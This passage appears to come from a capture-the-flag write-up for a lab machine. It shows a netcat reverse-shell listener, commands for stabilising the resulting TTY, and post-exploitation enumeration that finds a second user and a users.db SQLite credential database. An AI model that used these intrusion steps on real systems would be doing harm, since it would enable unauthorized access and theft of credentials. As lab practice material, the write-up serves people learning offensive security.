 Now there is an option to make predictions on the model. This is where the Lambda function will be called, launching the reverse shell. So first, I listen with `netcat` on port 443:

```bash
nc -nlvp 443
```

I click to make predictions on the website, the Lambda is executed on the server, and I get a reverse shell:

```bash
$ whoami
app
```

## Post-Exploitation

I proceed to perform a basic tty treatment:

```
script /dev/null -c bash
ctrl + z
stty raw -echo; fg
export TERM=xterm
```

### User gael

I find another user on the system with their own home directory:

```bash
app@artificial:/home$ ls
app  gael
```

Listing the main directory of app, I find the following:

```bash
app@artificial:~/app$ ls
app.py  instance  models  __pycache__  static  templates
```

After reviewing the directories, the most interesting is instance since it contains a users.db:

```bash
app@artificial:~/app/instance$ ls
users.db
```

I analyze it with `file` to see which engine it uses:

```bash
app@artificial:~/app/instance$ file users.db
users.db: SQLite 3.x database, last written using SQLite version 3031001
```

I open the database file with `sqlite3`:

```bash
app@artificial:~/app/instance$ sqlite3 users.db 
SQLite version 3.31.1 2020-01-27 19:55:54
Enter ".help" for usage hints.
```
